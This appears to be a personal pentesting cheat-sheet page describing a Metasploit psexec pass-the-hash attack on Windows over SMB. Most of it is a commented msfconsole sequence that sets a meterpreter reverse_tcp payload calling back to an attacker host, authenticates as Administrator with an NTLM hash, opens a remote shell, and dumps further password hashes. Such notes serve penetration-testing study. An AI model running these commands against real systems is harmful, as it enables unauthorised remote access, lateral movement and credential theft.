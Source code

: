 ```yaml
---
title: "psexec pass the hash"
# search:
#   exclude: true

hide:
#   - navigation
  - toc
  #- footer
---
```


## PSEXEC PASS THE HASH

<https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/>

assuming that you already have the NTLM `username:ntlm-hash`, you can then run the reverse tcp shell

```bash
# start metasploit meterpreter  
msfconsole

# search for the windows smb `psexec` exploit
msf > search psexec

# "load" the exploit to use  
msf > use exploit/windows/smb/psexec

# list the available configuration options to `set` for the exploit  
msf exploit(psexec) > show options

# using the `psexec` exploit, we will send the `reverse_tcp` shell payload
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp

# set the LocalHost for the reverse shell connect to
msf exploit(psexec) > set LHOST 192.XXXXX

# set the LocalPort for the reverse shell connect to
msf exploit(psexec) > set LPORT 443

# set the RemoteHost (the target) that we are going to run the exploit and payload against to
msf exploit(psexec) > set RHOST 192.XXXXXX

# why not?! list all configuration options to see if we are happy with it
msf exploit(psexec) > show options

# set the username 
msf exploit(psexec) > set SMBUser Administrator

# set the SMBPassword, the NTLM that we have
msf exploit(psexec) > set SMBPass 00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c


# run `exploit` to execute the exploit AND the payload
msf exploit(psexec) > exploit
```

If the above executes successfully, you can then drop "into" into a shell on the remote host  
meterpreter > `shell`

you can also run `hasdump` to dump any additional NTLM hash
meterpreter > `run post/windows/gather/hashdump`
